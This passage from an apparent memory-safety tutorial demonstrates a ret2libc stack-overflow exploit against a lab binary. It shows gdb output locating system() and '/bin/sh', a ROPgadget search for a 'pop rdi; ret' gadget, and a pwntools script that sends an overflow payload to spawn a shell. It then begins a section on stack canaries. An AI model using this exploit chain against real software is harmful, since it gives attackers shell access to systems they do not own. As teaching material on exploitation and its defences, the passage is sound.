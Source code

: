 
```shell
gdb ./vuln
(gdb) break *validation
Breakpoint 1 at 0x1160
(gdb) r
Starting program: /home/aisr/memory_safety/1-stacksmash/vuln
Input your key:
Breakpoint 1, 0x0000555555555160 in validation ()
(gdb) print system
$1 = {int (const char *)} 0x7ffff7e12290 <__libc_system>
(gdb) find 0x7ffff7e12290, +2000000, "/bin/sh"
0x7ffff7f745bd
```

Find the version of libc.
```shell
ldd ./vuln
        linux-vdso.so.1 (0x00007ffff7fcd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
```

Search for useful gadgets or instruction combinations that can call system("/bin/sh") from the shared library.
```shell
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret" | grep rdi
0x00000000000248f2 : pop rdi ; pop rbp ; ret
0x0000000000023b6a : pop rdi ; ret
```

Below is a sample attacking script for reference.
```python
from pwn import *

system_addr = 0x7ffff7e12290
binsh_addr = 0x7ffff7f745bd

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
ret_offset = 0x0000000000023b6a - libc.symbols['system']
ret_addr = system_addr + ret_offset
print(hex(ret_addr))

payload = "A" * 88 + p64(ret_addr) + p64(binsh_addr) + p64(system_addr)
p = process("./vuln")
p.send(payload)
p.interactive()
```

### 1.2.3 Stack Canary 
Stack canary is a widely used technique to check the stack integrity with a sentinel. Developers can enable stack canary with an option -fstack-protector when compiling their code. The generated assembly code is shown as follows.

```shell
clang -fstack-protector vuln.c -o vuln
```
